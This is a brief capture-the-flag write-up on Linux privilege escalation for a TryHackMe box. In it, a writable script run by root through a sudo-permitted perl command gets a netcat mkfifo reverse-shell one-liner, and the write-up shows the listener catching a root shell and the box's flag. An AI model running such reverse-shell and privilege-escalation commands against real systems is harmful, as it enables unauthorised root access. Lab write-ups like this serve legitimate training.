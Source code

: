 ```yaml
---
title: Linux privilage escalation techniques
author: fieldraccoon
date: 2020-06-28 
categories: [examples, linux-privelage-escalation]
tags: [hack-the-box, tryhackme,]
math: true
---
```


# tryhackme lazy-admin box - sudo -l - perl priv-esc

In this box we had to echo a reverse shell to a file that would be executed with perl by root to get a shell.


```bash
www-data@THM-Chal:/home/itguy$ sudo -l
sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

After checking the file `backup.pl` we can see that it is running this:
```bash
cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
We check privelages for the copy.sh file and it turns out that we can write to it.

We add a reverse shell to the file and execute it as root and we get a shell.

```bash
www-data@THM-Chal:/home/itguy$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc xx.xx.xx.xx 1234 >/tmp/f" > /etc/copy.sh
< -i 2>&1|nc xx.xx.xx.xx 1234 >/tmp/f" > /etc/copy.sh                         
www-data@THM-Chal:/home/itguy$ sudo /usr/bin/perl /home/itguy/backup.pl
sudo /usr/bin/perl /home/itguy/backup.pl
```
And we setup a listener on our box and we get a connection!
```bash
kali@kali:~/tryhackme$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [xx.xx.xx.xx] from (UNKNOWN) [10.10.87.188] 59192
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```

